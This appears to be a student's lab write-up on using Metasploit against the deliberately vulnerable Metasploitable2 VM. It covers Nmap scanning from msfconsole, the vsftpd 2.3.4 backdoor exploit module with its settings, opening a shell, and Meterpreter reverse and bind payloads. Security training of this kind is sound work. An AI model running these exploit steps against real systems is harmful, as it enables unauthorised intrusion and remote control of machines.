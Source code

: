 # 🎯 Metasploit Framework - Vulnerability Scanning & Exploitation

## 🧠 What I Learned

In this exercise, I explored the **Metasploit Framework**, a powerful tool used for **vulnerability assessment, payload generation, and exploitation**. I learned how to perform Nmap scans from inside Metasploit, search for vulnerable services, configure modules, and successfully launch an exploit against a known vulnerable target (Metasploitable2).

---

## 📚 Topics Covered

- Launching and navigating Metasploit (`msfconsole`)
- Performing port scans within Metasploit (`db_nmap`)
- Searching and selecting exploit modules
- Setting up payloads (reverse shells, bind shells)
- Configuring exploit options (RHOST, LHOST, LPORT, etc.)
- Gaining a session and interacting with a compromised machine
- Basic post-exploitation with Meterpreter

---

## 🛠️ Tools & Environment

- **Kali Linux** (Attacker VM)
- **Metasploit Framework**
- **Metasploitable2** (Target VM)
- Nmap (integrated with Metasploit using `db_nmap`)

---

## 🔍 Workflow Example

### 1. Start Metasploit Console
  msfconsole
### 2. Scan Target with Nmap from within Metasploit
  - db_nmap 192.168.56.101
### 3. Search for a Vulnerable Service
  - search vsftpd 2.3.4
### 4. Configure Exploit Module
  - use exploit/unix/ftp/vsftpd_234_backdoor
  - set RHOST 192.168.56.101
### 5. Run the Exploit
  - run/exploit
### 🎉 Successful: Shell session opened.

🧪 Payload Concepts
Payloads are the actual code that gets executed on the target

Common types:
windows/meterpreter/reverse_tcp
linux/x86/meterpreter/bind_tcp
Used set PAYLOAD and set LHOST/LPORT to customize
